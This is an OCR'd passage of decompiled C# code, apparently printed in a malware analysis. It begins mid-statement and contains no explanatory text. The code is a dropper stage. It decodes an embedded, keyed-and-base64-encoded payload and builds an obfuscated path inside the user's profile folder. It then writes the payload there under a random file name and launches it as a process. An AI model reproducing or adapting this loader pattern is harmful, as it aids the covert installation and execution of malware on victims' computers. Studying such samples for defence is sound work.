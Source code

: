 ```cs
            {
              '|'
            })[1])), "randomkey");
            string s = text.Split(new char[]
            {
              '|'
            })[0];
            CS$<>8__locals1.fileName = Program.RandomUtil.GetRandomString();
            CS$<>8__locals1.CurrentDirectoryy = new string[]
            {
              Program.ROT13Encode("\u0002{", "AAAQSDQSDF"),
              Program.ROT13Encode("\u0004 !# ", "QSDQSFFF"),
              Program.ROT13Encode("\u0010#4\u0015200", "QSDQSDQFGHG"),
              Program.ROT13Encode("\u0006')-$", "JHJLHJKYTUTYU"),
              Program.ROT13Encode("\u0005!>6", "QDSFDFHNGFGN"),
              Program.ROT13Encode("v&.2", "XCVW<X<WCBN")
            };
            byte[] bytes2 = Convert.FromBase64String(Program.ROT13Encode(Encoding.UTF8.GetString(Convert.FromBase64String(s)), key));
            File.WriteAllBytes(string.Concat(new string[]
            {
              CS$<>8__locals1.CurrentDirectoryy[0],
              "\\",
              CS$<>8__locals1.CurrentDirectoryy[1],
              "\\",
              Environment.UserName,
              "\\",
              CS$<>8__locals1.CurrentDirectoryy[2],
              "\\",
              CS$<>8__locals1.CurrentDirectoryy[3],
              "\\",
              CS$<>8__locals1.CurrentDirectoryy[4],
              "\\",
              CS$<>8__locals1.fileName,
              CS$<>8__locals1.CurrentDirectoryy[5]
            }), bytes2);
            Process process = new Process();
            process.Exited += CS$<>8__locals1.<Main>g__p_Exited|0;
            process.StartInfo.FileName = string.Concat(new string[]
            {
              CS$<>8__locals1.CurrentDirectoryy[0],
              "\\",
              CS$<>8__locals1.CurrentDirectoryy[1],
              "\\",
              Environment.UserName,
              "\\",
              CS$<>8__locals1.CurrentDirectoryy[2],
              "\\",
              CS$<>8__locals1.CurrentDirectoryy[3],
              "\\",
              CS$<>8__locals1.CurrentDirectoryy[4],
              "\\",
              CS$<>8__locals1.fileName,
              CS$<>8__locals1.CurrentDirectoryy[5]
            });
            process.EnableRaisingEvents = true;
            process.Start();
            Console.ReadLine();
          }
        }
      }
    }
    // Token: 0x02000003 RID: 3
```
